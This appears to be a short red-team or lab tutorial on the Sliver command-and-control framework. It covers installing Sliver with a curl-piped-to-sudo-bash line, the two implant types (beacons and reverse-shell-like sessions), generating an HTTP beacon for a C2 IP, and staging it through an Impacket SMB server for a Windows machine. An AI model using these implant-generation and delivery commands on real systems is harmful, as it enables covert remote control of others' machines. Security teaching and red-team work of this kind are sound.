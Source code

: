 ## Installation
curl https://sliver.sh/install|sudo bash


u can start the server with systemctl 


run:
```
sliver
```

## Types of implants

- Beacons = will check in with your Server from time to time to see if u wrote some command to be executed
- Session = its real time response, similar to a reverse shell 

> Similar but not the same. Shell is even easier to detect

Generating the Beacon:
```
generate beacon --http <C2 IP> --save .
```

![Alt text](/assets/images/posts/c2/1.png){: .align-center}


After that, u can run SMB SERVER using IMPACKET to transfer it to the remote Windows Machine
```
smbserver.py kali . -smb2support -username anon -password anon
```

![Alt text](/assets/images/posts/c2/2.png){: .align-center}

